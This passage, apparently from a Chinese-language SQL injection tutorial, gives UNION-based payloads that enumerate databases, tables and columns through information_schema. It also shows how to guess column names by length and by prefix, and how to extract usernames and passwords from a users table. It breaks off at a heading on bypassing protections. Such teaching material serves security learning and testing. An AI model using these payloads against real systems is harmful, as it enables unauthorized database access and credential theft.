 列出所有数据库、表和列信息的组合，全面分析目标系统。

### 查询：

```sql
SELECT table_schema, table_name, column_name FROM information_schema.columns;
```

### SQL 注入示例：

```sql
' UNION SELECT table_schema, table_name, column_name FROM information_schema.columns -- 
```

------

## **6. 动态爆破信息**

当目标系统有字符长度限制或不能直接返回完整结果时，攻击者可以动态猜测元信息：

- 按长度猜测：

  ```sql
  ' UNION SELECT column_name, null FROM information_schema.columns WHERE LENGTH(column_name) = 5 -- 
  ```

- 按字符猜测：

  使用逐字符比对的方法，如：

  ```sql
  ' UNION SELECT column_name, null FROM information_schema.columns WHERE column_name LIKE 'pass%' -- 
  ```

------

## **7. 获取敏感数据**

一旦攻击者知道了表和列的具体名称，就可以结合这些信息，提取敏感数据，例如用户表的用户名和密码。

### 示例：

```sql
SELECT username, password FROM target_database.users;
```

SQL 注入语句可能如下：

```sql
' UNION SELECT username, password FROM target_database.users -- 
```

------

## **8. 绕过防护**
